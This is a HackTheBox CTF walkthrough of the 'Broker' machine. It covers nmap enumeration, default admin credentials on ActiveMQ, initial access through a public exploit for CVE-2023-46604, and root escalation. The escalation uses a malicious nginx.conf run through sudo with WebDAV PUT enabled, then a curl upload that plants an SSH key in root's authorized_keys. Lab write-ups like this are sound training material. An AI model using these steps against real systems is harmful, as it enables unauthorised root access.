 ```yaml
---
title: "Broker"
date: 2025-01-23
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "htb writeup", "broker", "htb walkthrough", "hackthebox", "writeup"]
---
```


This write-up explores the Broker machine, which presents a pseudo-enterprise environment with exposed services and unprotected internal communication.

Key techniques explored include:

Interacting with custom messaging services to uncover sensitive data

Replaying internal service protocols to gain code execution

Leveraging weak sudo configurations to escalate privileges

OS: Linux

Difficulty : Easy

## Enumeration

> Using `admin : admin` provides access to the admin portal.

### Nmap

```sh
└─$ nmap -sC -sV 10.10.11.243                 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-01 13:33 AEST
Nmap scan report for 10.10.11.243
Host is up (0.016s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-title: Error 401 Unauthorized
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 80-HTTP

![screenshot](/assets/images/broker1.png)

-> signed in as `admin : admin`

![screenshot](/assets/images/broker2.png)

- ActiveMQ 5.15.15

#### gobuster

![screenshot](/assets/images/broker3.png)

## Initial Access

>- Using the [public exploit](https://github.com/X1r0z/ActiveMQ-RCE/tree/main), gained initial access as activemq.
	- Had to install go lang. 

[Reference](https://www.prio-n.com/blog/cve-2023-46604-attacking-defending-ActiveMQ)

The modified poc.xml

![screenshot](/assets/images/broker4.png)

[Installing golang reference](https://medium.com/@yadav-ajay/go-lang-on-kali-linux-5cc40a78d7de)

![screenshot](/assets/images/broker5.png)

## Privilege Escalation

>- `sudo -l` activemq has sudo privileges to run `/usr/sbin/nginx`.
- Modify `nginx.conf` with malicious payload.
	- change the user to root from www-data so the nginx process runs from root.
	- add listening port.
- Generate ssh key.
	- `curl PUT` to put the generated ssh public key via the listening port. 
- SSH as root

![screenshot](/assets/images/broker6.png)

![screenshot](/assets/images/broker7.png)

![screenshot](/assets/images/broker8.png)

```sh
/usr/bin/java -Xms64M -Xmx1G -Djava.util.logging.config.file=logging.properties -Djava.security.auth.login.config=/opt/apache-activemq-5.15.15//conf/login.config -Dcom.sun.management.jmxremote -Djava.awt.headless=true -Djava.io.tmpdir=/opt/apache-activemq-5.15.15//tmp -Dactivemq.classpath=/opt/apache-activemq-5.15.15//conf:/opt/apache-activemq-5.15.15//../lib/: -Dactivemq.home=/opt/apache-activemq-5.15.15/ -Dactivemq.base=/opt/apache-activemq-5.15.15/ -Dactivemq.conf=/opt/apache-activemq-5.15.15//conf -Dactivemq.data=/opt/apache-activemq-5.15.15//data -jar /opt/apache-activemq-5.15.15//bin/activemq.jar start 
```

```sh
# show comments only
cat nginx.conf | grep -v '\#' | grep .
```

![screenshot](/assets/images/broker9.png)

change the user to root on `nginx.conf`

To use `ngx_http_dav_module` to write my public SSH key into the root's `authorized_keys`, create the malicious NGINX configuration file as below. 

pwn.conf

```sh
user root; # worker processes will be run by root
worker_processes 4;
pid /tmp/nginx.pid;
events {
		worker_connections 768;
}
http {
	server {
		listen 1337;
		root /;
		autoindex on;
		dav_methods PUT;
	}
}
```

![screenshot](/assets/images/broker10.png)

![screenshot](/assets/images/broker11.png)

![screenshot](/assets/images/broker12.png)

From Kali

```sh
ssh-keygen -f broker

curl 10.10.11.243:1337/root/.ssh/authorized_keys --upload-file broker.pub
```

ssh as root

```sh
ssh -i broker root@10.10.11.243
```

![screenshot](/assets/images/broker13.png)
